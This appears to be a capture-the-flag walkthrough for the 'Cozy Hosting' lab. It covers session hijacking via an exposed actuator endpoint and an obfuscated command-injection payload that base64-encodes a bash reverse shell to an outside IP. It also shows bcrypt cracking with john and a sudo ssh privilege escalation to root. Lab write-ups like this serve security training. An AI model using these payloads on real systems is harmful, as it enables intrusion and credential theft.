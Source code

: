 # Solver Cozy Hosting User & root

## Recon

We found login page at /login
using nmap, dirbuster, gobuster dns ( enum subdomains ) and we found http://cozyhosting.htb/actuator

go to the http://cozyhosting.htb/actuator/sessions , we look like its JSESSIONID and the server use java, so lets we use that sessions then boom we login

## Exploit

After we go to the admin dashboard , we discover that the server use /bin/sh to do ssh _you can trigger by port host 127.0.0.1 and user any_, we can do command injection. this is my payload %3becho${IFS%25%3f%3f}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xNS85MDAxIDA%2bJjEK"${IFS%25%3f%3f}|${IFS%25%3f%3f}base64${IFS%25%3f%3f}-d${IFS%25%3f%3f}|${IFS%25%3f%3f}bash%3b using base64 reverse shell than url encode

## Post Exploitation

After we got into the server we found the source code .jar in the server, we download it to local and decompile using jd-gui, we found psql ( postgresql creds ), we login psql and go to the database user, and decrypte the admin password using john

`shell
john --format=bcrypt --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt admin_hash_psql.tx
`
Response :
`Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:07 DONE (2024-02-02 23:31) 0.1303g/s 366.1p/s 366.1c/s 366.1C/s 159159..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed`

After that we cat /etc/passwd to list all user and try the password that we already dec to all user and we found user josh, after that we sudo -l, we found binary ssh then using gtfobins.io to see the payload `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2'`
